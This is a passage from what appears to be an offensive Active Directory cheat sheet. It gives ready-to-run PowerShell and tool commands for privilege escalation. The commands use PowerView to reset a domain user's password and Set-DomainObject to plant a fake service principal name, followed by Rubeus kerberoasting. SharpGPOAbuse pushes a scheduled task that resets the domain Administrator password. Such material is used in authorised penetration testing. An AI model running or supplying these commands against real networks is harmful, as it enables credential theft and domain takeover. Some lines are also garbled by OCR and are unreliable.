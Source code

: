 https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Import-Module .\\PowerView_dev.ps1

Set-DomainUserPassword -Identity user1 -verbose

Enter-PSSession -ComputerName COMPUTERNAME -Credential ""

<a name="escalate-with-genericwrite"></a>
# Escalate With GenericWrite

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

\$pass = ConvertTo-SecureString \'Password123\#\' -AsPlainText -Force

\$creds = New-Object
System.Management.Automation.PSCredential(\'DOMAIN\\MASTER USER\'),
\$pass)

Set-DomainObject -Credential \$creds USER1 -Clear serviceprincipalname

Set-DomainObject -Credential \$creds -Identity USER1 -SET
@{serviceprincipalname=\'none/fluu\'}

.\\Rubeus.exe kerberoast /domain:\<DOMAIN\>

<a name="abusing-gpo"></a>
# Abusing GPO

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1..\\SharpGPOAbuse.exe \--AddComputerTask \--Taskname \"Update\"
\--Author DOMAIN\\\<USER\> \--Command \"cmd.exe\" \--Arguments \"/c net
user Administrator Password!@\# /domain\" \--GPOName \"ADDITIONAL DC
CONFIGURATION\"

<a name="pass-the-ticket"></a>
# Pass-the-Ticket

Domain: Yes
